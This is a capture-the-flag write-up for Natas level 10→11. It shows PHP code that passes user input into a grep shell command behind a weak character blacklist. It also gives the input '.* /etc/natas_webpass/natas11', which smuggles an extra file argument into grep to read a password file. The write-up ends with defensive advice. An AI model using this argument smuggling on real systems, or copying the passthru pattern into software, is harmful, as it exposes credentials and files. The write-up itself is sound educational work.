

# Natas Level 10 → 11

**Vulnerability:** Command Injection Filter Bypass (grep wildcard abuse)
**Difficulty:** Medium
**Tools Used:** Browser, DevTools
**OWASP Category:** A03 – Injection

---

## What the level gives you

The application allows users to search for words inside a dictionary file. Unlike the previous level, several command injection characters are filtered in an attempt to prevent exploitation.

A source code review reveals that user input is passed to a `grep` command after applying a blacklist filter. The objective is to retrieve the password for Natas11.

---

## Source code analysis

```php
if(preg_match('/[;|&]/',$key)) {
    print "Input contains an illegal character!";
} else {
    passthru("grep -i $key dictionary.txt");
}
```

The developer attempts to block command injection by filtering a small set of characters.

```php
preg_match('/[;|&]/',$key)
```

Only `;`, `|`, and `&` are blocked.

The vulnerable assumption is that preventing a few shell metacharacters prevents command injection entirely. The application still allows wildcard expansion and additional file arguments to be supplied to `grep`.

Because user input is inserted directly into a shell command, attackers can manipulate the behavior of `grep` without needing traditional command separators.

---

## Approach

My first assumption was that this level would require the same payload used in Natas9. However, the blacklist blocked common command injection characters.

After reviewing the source code, I noticed the filtering was extremely narrow and only targeted a few shell operators. Instead of trying to execute a second command, I focused on abusing the existing `grep` command itself.

The turning point was realizing that `grep` accepts multiple files as arguments. If I could make grep search another file, I could read sensitive data without needing command execution.

---

## Exploitation

Input submitted:

```text
.* /etc/natas_webpass/natas11
```

Explanation:

```text
.*                         # matches every line
/etc/natas_webpass/natas11 # additional file supplied to grep
```

Result:

```text
/etc/natas_webpass/natas11:<PASSWORD>
```

The password for Natas11 was displayed directly in the response.

---

## Screenshot

### Successful grep wildcard abuse



---

## Real-world relevance

This is a classic example of insufficient input sanitization under OWASP A03: Injection. Blacklist-based defenses often fail because attackers can abuse legitimate program functionality rather than inject new commands.

Similar findings appear in legacy web applications where developers attempt to secure shell commands by filtering a small set of characters instead of eliminating shell execution entirely.

---

## Defender's perspective

User input should never be concatenated into shell commands.

A secure implementation would use parameterized APIs such as PHP file handling functions instead of shell execution. If shell execution is unavoidable, arguments must be escaped using `escapeshellarg()` and validated using a strict allowlist.

Security monitoring should alert on attempts to access sensitive files such as `/etc/passwd` or `/etc/natas_webpass/*`.